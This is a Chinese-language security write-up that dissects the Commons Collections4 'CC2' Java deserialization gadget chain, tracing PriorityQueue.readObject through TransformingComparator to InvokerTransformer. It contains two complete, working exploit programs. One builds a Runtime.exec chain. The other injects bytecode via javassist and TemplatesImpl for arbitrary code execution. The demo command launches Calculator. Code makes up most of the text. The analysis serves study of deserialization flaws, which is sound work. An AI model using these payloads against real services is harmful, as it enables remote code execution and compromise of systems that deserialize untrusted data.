


前置知识：[priorityQueue](https://www.cnblogs.com/CarpenterLee/p/5488070.html)、

POC

```java
package demo;

import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections2 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]  {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class,Object[].class },
                        new Object[] {null, null }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String.class },
                        new Object[] { "/System/Applications/Calculator.app/Contents/MacOS/Calculator" }
                )
        };
        ChainedTransformer template = new ChainedTransformer(transformers);
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        TransformingComparator comparator =  new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);

        Field iMethodName = transformer.getClass().getDeclaredField("iMethodName");
        Field iParamTypes = transformer.getClass().getDeclaredField("iParamTypes");
        Field iArgs = transformer.getClass().getDeclaredField("iArgs");
        iMethodName.setAccessible(true);
        iParamTypes.setAccessible(true);
        iArgs.setAccessible(true);
        iMethodName.set(transformer,"transform");
        iParamTypes.set(transformer,new Class[]{Object.class});
        iArgs.set(transformer,new Object[]{null});

        Field queue1 = queue.getClass().getDeclaredField("queue");
        queue1.setAccessible(true);
        queue1.set(queue,new Object[]{template,2});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr.toString());
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();

    }
}
```

Commons-Collections2 利用PriorityQueue readObject作为反序列化的入口

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

heapify()方法

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

siftDown方法

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
```

comparator不为空则进入到siftDownUsingComparator

```java
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```

这里使用了comparator.compare比较两个对象的大小

```java
int compare(T o1, T o2);
```

如果返回值为负数意味着o1比o2小，否则返回为零意味着o1等于o2，返回为正数意味着o1大于o2。

commons-collections4实现了这个接口



```java
    public int compare(I obj1, I obj2) {
        O value1 = this.transformer.transform(obj1);
        O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

熟悉的transform，梦回CC1

看TransformingComparator的构造函数

```java
    public TransformingComparator(Transformer<? super I, ? extends O> transformer, Comparator<O> decorated) {
        this.decorated = decorated;
        this.transformer = transformer;
    }
```

传入了transformer

```java
public interface Transformer<I, O> {
    O transform(I var1);
}
```

实现该接口的代码



```java
    public InvokerTransformer(String methodName, Class<?>[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes != null ? (Class[])paramTypes.clone() : null;
        this.iArgs = args != null ? (Object[])args.clone() : null;
    }

    public O transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class<?> cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
            }
        }
    }
```

嗯...CC1

看POC代码

```java
        Transformer[] transformers = new Transformer[]  {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class,Object[].class },
                        new Object[] {null, null }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String.class },
                        new Object[] { "/System/Applications/Calculator.app/Contents/MacOS/Calculator" }
                )
        };
        ChainedTransformer template = new ChainedTransformer(transformers);
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        
```

和CC1前半段一样，不赘述

```java
TransformingComparator comparator =  new TransformingComparator(transformer);
PriorityQueue queue = new PriorityQueue(2, comparator);
queue.add(1);
queue.add(2);
```

新建容量为2，比较器为TransformingComparator的PriorityQueue对象，添加两个比较对象，使得heapify能进到siftDown

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

容量大于1，且添加两个对象，使得size大于1，否则size >>> 1 = -1

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

设置比较器使得siftDown进入到siftDownUsingComparator

```java
        Field iMethodName = transformer.getClass().getDeclaredField("iMethodName");
        Field iParamTypes = transformer.getClass().getDeclaredField("iParamTypes");
        Field iArgs = transformer.getClass().getDeclaredField("iArgs");
        iMethodName.setAccessible(true);
        iParamTypes.setAccessible(true);
        iArgs.setAccessible(true);
        iMethodName.set(transformer,"transform");
        iParamTypes.set(transformer,new Class[]{Object.class});
        iArgs.set(transformer,new Object[]{null});
```

反射调用`InvokerTransformer#transform` 方法

```java
        Field queue1 = queue.getClass().getDeclaredField("queue");
        queue1.setAccessible(true);
        queue1.set(queue,new Object[]{template,2});
```

反射设置PriorityQueue#queue属性，带入ChainedTransformer链。当触发compare比较两个对象的时候，就会触发transform执行

命令了。

调用链

```
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
InvokerTransformer.transform（）
```

yso CC2 demo

```java
package demo;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class CommonCollections2TemplatesImpl{
    public static void main(String[] args) throws Exception{

        TemplatesImpl template = template();

        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        TransformingComparator comparator =  new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);

        Field iMethodName = transformer.getClass().getDeclaredField("iMethodName");
        iMethodName.setAccessible(true);
        iMethodName.set(transformer,"newTransformer");

        Field queue1 = queue.getClass().getDeclaredField("queue");
        queue1.setAccessible(true);
        queue1.set(queue,new Object[]{template,2});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr.toString());
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();

    }
    public static TemplatesImpl template() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("Test");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();

        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        Field name = templates.getClass().getDeclaredField("_name");
        Field tfactory = templates.getClass().getDeclaredField("_tfactory");

        bytecodes.setAccessible(true);
        name.setAccessible(true);
        tfactory.setAccessible(true);

        bytecodes.set(templates,targetByteCodes);
        name.set(templates,"aaa");
        tfactory.set(templates,new TransformerFactoryImpl());

        return templates;
    }

}

```

使用TemplatesImpl newTransformer执行字节码的类构造器，从而可以执行任意代码，比执行命令更加灵活。
